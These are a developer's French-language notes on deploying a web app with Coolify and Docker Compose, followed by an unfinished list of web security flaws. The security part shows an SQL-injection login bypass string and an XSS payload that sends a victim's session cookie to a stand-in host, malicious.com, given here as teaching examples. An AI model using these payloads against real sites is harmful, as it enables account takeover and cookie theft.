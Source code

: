 # deploiement :

### historique des actions et pbm rencontrés

- lancement du deploiement sur coolify à partir du repo github publique
- **erreur :**
	- npm n'arrive pas à acceder aux package.json
	- connexion au server via ssh pour identifier le probleme
	- le dossier du projet n'est que partiellement importé de github
	- activation de l'option "Preserve Repository During Deployment" dans coolify
- deploiement à nouveau
- **erreur :**
	- conflits dans les fichiers importés
	- resolus manuellement avec ssh pour l'instant
- le deploiement va plus loin
- **erreur :**
	- imports ne fonctionnent pas à cause d'une erreur dans le nom d'un fichier icone
- resoud le pbm, push sur github, redeploi
- ca marche ! -> le site est en ligne, sur l'url generee par coolify
- **erreur :**
	- la ddb n'envoit pas ses infos
	- ddb ne trouve le dossier `pg_notify`
	- pbm vient du volume de la ddb "psql" qui n'est pas vide donc pas reinstallé
	- il faudra l'enlever de github, pour l'instant je le vide
- ca marche !
- **erreur :**
	- le site s'affiche, mais pas les infos de la ddb
	- les fetch sont fait sur http://localhost:3000 -> pas bon
	- pbm avec le nom de domaine : les variables .env ne sont pas remplies
	- pour que les variables soient prises en compte il faut rebuild react
- **erreur :**
	- npm run build ne marche pas
	- pbm vient de la ligne "main: index.js" : parcel ne sait pas quoi en faire, je l'enleve
	- build fonctionne, pbms de .env et url resolu momentanement
	- les fetch se font sur la bonne adresse au lieu de localhost
- **erreur :**
	- aucune info ne revient du back
	- les donnees n'ont pas ete seedées, je les seed manuellement
- **erreur :**
	- les fetch se font à nouveau sur localhost, peut-etre qu'en seedant les donnees j'ai perdu les variables d'env en relancant le container ? bizarre
	- je change les .env pour mettre toutes les variables d'env dans le compose file, et les donner à coolify
	- c'est bon les variables sont bien transmises aux containers
- **erreur :**
	- les appels fetch marchent une fois, puis passent à nouveau sur localhost, il faut inverstiguer
	- en fait les fichier dans dist automatiquement crées par react ne sont pas bien mis à jour à cause de leur presence dans github
	- je les enleve de git
- **erreur :**
	- on à perdu les donnees de la base de donnee, je vais automatiser leur seeding



### liste des problemes et de leur resolution

- resoudre les pbm que recontre coolify pour le deploiement :
	1. il commence par creer des dossier ./BACK/db/migration.sql/ et ./BACK/db/seeding.sql/ au lieu de fichiers, parce qu'il les voit dans le docker-compose.yml en tant que "bind mount files" et il croit que ce sont des volumes
	2. puis il ne parvient pas a les remplacer par les fichiers quand il synchronise avec github
	3. ensuite il n'arrive pas toujours a creer la base de donnee, parce qu'il a copié le dossier psql depuis github donc il saute l'etape de recreer la base de donnee, et il lui manque des choses
	4. à ce stade, le site s'affiche, mais pas toujours sur le meme port, c'est encore mysterieux
	5. ensuite il n'a pas les variables d'environnement pour les fetchs
	6. à un moment il y a le pbm de la base de donnee qui doit etre cree en 2 etapes en de-commentant des lignes, je ne sais pas encore comment resoudre ca
	7. et après il y a encore des problemes non-identifiés

#### pbm 1 et 2 :

- dans le docker-compose.yml, au lieu d'avoir 2 fichier "bind mount", on va mettre un volume qui contient les 2 fichiers :
	- avant :
	```
  volumes:
    - ./BACK/db/migration.sql:/docker-entrypoint-initdb.d/create_tables.sql 
    - ./BACK/db/seeding.sql:/docker-entrypoint-initdb.d/seeding.sql
	```
	- apres :
	```
  volumes:
    - ./BACK/db/:/docker-entrypoint-initdb.d/
	```
- aussi on change le nom de `migration.sql` pour `create_tables.sql` puisqu'il doit s'appeller comme ca dans le container
- ok

#### pbm 3 :

- on a tout simplement pas besoin de synchroniser le dossier psql dans github
	- donc on l'enleve de github : `git rm -r psql/`
	- et on le met dans .gitignore : `psql/`
- la base de donnee se recreer correctement si on deploi
- ok

#### pbm 4 : ?

#### pbm 5 :

- pour l'instant chaque dossier FRONT et BACK possede son fichier .env avec ses variables d'environnements
- mais coolify ne nous laisse pas creer des variables d'environnement localisées dans tel ou tel fichier (à ma connaissance)
- donc on va changer la structure du projet pour que toutes le variables d'environnement soient declarées dans le .env à la racine du projet :
	- on declare toutes la variables dans le .env à la racine du projet
	- dans le fichier docker-compose.yml on injecte les bonnes variables dans les bons containers :
		- avant :
		```
		# dans docker-compose :

		services:
			bdd:
				environment:
					POSTGRES_DB: "skillswap"

			front:
				# pas d'environnement
		```
		- apres :
		```
		# dans .env à la racine du projet :

		POSTGRES_DB=skillswap
		REACT_APP_URL=camille.cloud
		```
		```
		# dans docker-compose :

		services:
			bdd:
				environment:
					POSTGRES_DB: ${POSTGRES_DB}

			front:
				environment:
					REACT_APP_URL: ${REACT_APP_URL}
		```
- maintenant les variables d'environnements sont dans tout l'environnement de chaque container, au lieu d'etre dans un fichier
- il ne reste plus qu'à les rentrer dans coolify avant de deployer
- ok


# securité :

## types de failles de securité :

1. **injection SQL**
   injecter une requete sql "malveillante", qui fait fonctionner la base de donnee d'une maniere imprevue
	 ex de requete avec 2 champs de formulaire pour se connecter 'username' et 'password' :
	    "SELECT * FROM users WHERE username = '$username' AND password = '$password'";
			si on remplis uniquement le 'username' avec [' OR '1'='1], ca donne cette requete :
			SELECT * FROM users WHERE username = '' OR '1'='1' AND password = '';
			1=1 est toujours vraie donc on peut se connecter avec n'importe username sans le mot de passe
2. **xss**
   injecter du code "malveillant" sur une page vue par un autre utilisateur, par exemple pour recuperer ses cookies de session
   ex d'attaque xss sur un site web qui permet de faire une recherche :
	    1. le site possede une page avec un champ de recherche, on peut chercher "babar" par exemple :
			   `recherche: [babar]`
			2. lorsqu'on valide la recherche, elle est envoyé avec la methode GET au back :
			   `https://exemple.com/search?query=babar`
			3. le site affiche ensuite la recherche en plus des resultats :
				 `les resultats pour votre recherche "babar" sont etc...`
			4. donc si on envoit cette url à quelqu'un, il va voir les resultats s'afficher :
			   `https://exemple.com/search?query=babar`
				 `les resultats pour votre recherche "babar" sont etc...`
			5. au lieu d'envoyer "babar" dans le champs de recherche, on peut y mettre un script :
			   [<script>document.location='http://malicious.com/steal?cookie='+document.cookie</script>]
				 les resultats pour votre recherche <script>...</script>
				 -> le script est executé
				 en l'occurence, il vole les cookies de session de la personne, on peut donc ensuite se connecter a son compte
3. **csrf**
   
4. **brute force**
   
5. **man in the middle**
   
6. **ddos**
   
7. **idor**
   
